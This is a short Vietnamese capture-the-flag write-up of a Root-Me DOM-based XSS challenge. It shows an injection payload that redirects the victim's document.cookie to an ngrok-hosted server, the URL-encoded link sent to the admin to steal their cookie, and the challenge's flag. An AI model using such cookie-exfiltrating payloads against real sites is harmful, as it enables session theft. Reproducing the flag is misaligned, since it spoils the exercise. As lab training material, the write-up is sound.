






# Challenge: XSS DOM Based - Introduction
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 20 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1
- Trang web yêu cầu ta nhập vào một số, sau khi gởi, chúng ta kiểm tra lại mã nguồn, ta thấy giá trị nhập vào được thêm vào code

- Đến đây ta thử nhập vào một giá trị là `';alert(1);a='`

- Để khai thác lỗi này thì ta cần 1 server để có thể nhận được thông tin từ lấy được từ challenge. Ta sử dụng Ngrok để tạo đường hầm (tunnel) giữa localhost và internet (Giống bài trước XSS-Stored 1)
- Đến đây ta tiến hành attack với dữ liệu được thêm vào là `';document.location="http://cf3a-171-253-133-218.ngrok.io/?cookie="+document.cookie;a='`, để có thể lấy được cookie ở phía client. Đến đây ta chỉ nhận được 1 request từ máy của ta đến server PHP đã mở trước đó  

- Vì tấn công này diễn ra ở client, để có thể lấy cookie của admin ta cần gởi đường dẫn này cho admin... vào phần `contact` ta gởi link đã được endcode url `http://challenge01.root-me.org/web-client/ch32/?number=%27%3Bdocument.location%3D%22http%3A%2F%2Fcf3a-171-253-133-218.ngrok.io%2F%3Fcookie%3D%22%2Bdocument.cookie%3Ba%3D%27`

- Đợi được 1 lúc ta sẽ nhận được 1 request của admin, kèm theo cookie của mình

## Kết quả flag là `rootme{XSS_D0M_BaSed_InTr0}`